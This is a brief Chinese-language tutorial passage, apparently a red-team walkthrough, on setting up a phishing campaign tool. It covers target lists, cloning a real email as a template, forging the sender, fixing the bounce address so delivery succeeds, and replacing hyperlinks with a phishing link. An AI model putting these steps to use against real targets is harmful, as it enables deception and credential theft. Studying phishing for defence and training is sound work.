
1.存放钓鱼目标地址的文件
2.内容模板
3.邮件附件
4.钓鱼链接（可以直接选择之前生成的）
5.邮件服务器
6.想要伪造的发件人
通过发送邮件获取邮件原文作为我们的内容模板，通过邮箱导出EML文件

配好后如下

邮件发送这时候是失败的，因为这个Bounce好像一定要是认证发信人，就是和上面MailServer一样，改成一样就成功了，和真的简直一模一样

并且我们可以看到其中超链接的地址已经被替换了
